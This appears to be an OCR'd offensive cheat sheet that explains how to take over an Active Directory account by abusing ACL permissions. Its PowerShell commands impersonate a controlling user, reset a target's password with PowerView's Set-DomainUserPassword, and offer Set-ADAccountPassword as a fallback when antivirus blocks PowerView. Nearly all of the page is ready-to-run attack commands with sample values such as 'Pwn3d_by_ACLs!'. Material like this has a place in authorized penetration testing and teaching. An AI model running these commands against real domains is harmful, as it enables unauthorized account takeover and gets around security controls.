 # Change a User's Password Using ACL Permissions

1. **Authenticate as the Controlling User User I have**  
   - **Create a Secure String** for the password of the user with ACL permissions (e.g., `ali`):  
     ```powershell
     $SecPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
     ```  
   - **Create a PSCredential Object** to impersonate the controlling user:  
     ```powershell
     $Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\USERNAME', $SecPassword)
     ```  
     Replace `DOMAIN\USERNAME` (e.g., `corp.com\ali`).

2. **Define the New Password for the Target User**  
   - **Create a Secure String** for the new password (e.g., `Pwn3d_by_ACLs!`):  
     ```powershell
     $NewPassword = ConvertTo-SecureString '<NEW_PASSWORD>' -AsPlainText -Force
     ```  
---

3. **Reset the Target User's Password**  
   - **Import Required Modules** (e.g., PowerView):  
     ```powershell
     Import-Module .\PowerView.ps1
     ```  
   - **Execute the Password Change**:  
     ```powershell
     Set-DomainUserPassword -Identity <TARGET_USER> -AccountPassword $NewPassword -Credential $Cred -Verbose
     ```  
     Replace `<TARGET_USER>` (e.g., `ahmed`).  
---
Another way to **Reset the Target User's Password** if powerview.ps1 cannot be executed (AV)
Set-ADAccountPassword (ActiveDirectory module)
# Example: Reset a user password to “p@ssw0rd”
``` powershell
Set-ADAccountPassword -Identity 'CN=Elisa Daugherty,OU=Accounts,DC=Fabrikam,DC=com' `
    -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "p@ssw0rd" -Force)
```
